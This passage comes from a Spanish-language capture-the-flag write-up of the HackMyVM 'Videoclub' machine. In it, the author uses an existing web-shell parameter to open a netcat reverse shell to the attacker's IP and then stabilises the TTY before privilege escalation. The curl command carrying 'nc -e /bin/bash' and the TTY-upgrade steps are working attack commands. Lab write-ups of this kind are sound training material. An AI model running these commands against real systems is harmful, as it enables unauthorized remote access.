 ```bash
  ||     \.    `---'    ./     ||
  ||       '-._     _.-'       ||
 /  \       _/ `~:~` \_       /  \
||||\)   .-'    / \    `-.   (/||||
\|||    (`.___.')-(`.___.')    |||/
 '"'     `-----'   `-----'     '"'
```

Pero para poder escalar privilegios necesito acceso al sistema, asique ya que puedo ejecutar comandos voy a intentar entablar una reverse shell.

Pongo netcat en escucha en el puerto 8888 (por ejemplo).

Y ejecuto el siguiente comando:

` ❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=nc++-e+/bin/bash+192.168.0.11+8888' `

Y ya tengo la conexión inversa, tengo acceso al sistema.

![](/assets/images/HMV/Videoclub-HackMyVM/shell.webp)

Pero para tener una shell interactiva he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
Script started, file is /dev/null
```

```bash
www-data@video-club-margarita:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 8888
```

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -lnvp 8888
 				reset
reset: unknown terminal type unknown
Terminal type? xterm
```

```bash
www-data@video-club-margarita:/var/www/html$ export TERM=xterm
www-data@video-club-margarita:/var/www/html$ export SHEL=bash
```

# Escalada de Privilegios
